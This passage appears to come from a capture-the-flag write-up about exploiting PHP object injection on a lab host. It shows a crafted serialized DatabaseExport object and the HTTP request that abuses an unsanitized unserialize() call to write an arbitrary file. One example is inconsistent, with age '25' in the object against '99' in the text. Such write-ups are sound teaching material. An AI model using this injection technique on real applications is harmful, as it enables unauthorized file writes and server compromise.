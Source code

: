 ```php

$app = new DatabaseExport;
$app -> update_db();

?>
```
<br>

As we see user input named `arepo` in GET request is being unserialized directly without sanitization, so we can abuse this to inject our malicious php object

## 3- PHP Deserialization Vulnerability
For exploiting PHP deserialization and PHP object injection, we should have a PHP Class with a specific magic method `__destruct` or `__wakeup`

Here we have a class named `DatabaseExport` with `__destruct` method which satisfies our condition

PHP objects are demonstrated like below

```php
O:6:"Person":2:{s:4:"name";s:7:"kourosh";s:3:"age";s:2:"25";}
```

For example, this object demonstrates a php object with
+ class name `Person` which has 6 characters
+ It has 2 fields:
	+  `name` (4 characters) with the value of `kourosh` (7 characters)
	+  `age` (3 characters) with the value of `99` (2 characters)

Now let's create our malicious object for this class<br>
```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"krypt.txt";s:4:"data";s:11:"hello world";}
```

After injecting this object these steps will happen
+ It will unserialize the object and since the className exists the unserialization would be successful
+ at the end the magic method `__destruct` will be executed
+ it will write to the file named `krypt.txt` the value of `hello world` which leads to an arbitrary file write on server


```http
GET /sator.php?arepo=O%3a14%3a"DatabaseExport"%3a2%3a{s%3a9%3a"user_file"%3bs%3a9%3a"krypt.txt"%3bs%3a4%3a"data"%3bs%3a11%3a"hello+world"%3b} HTTP/1.1
Host: sator.tenet.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

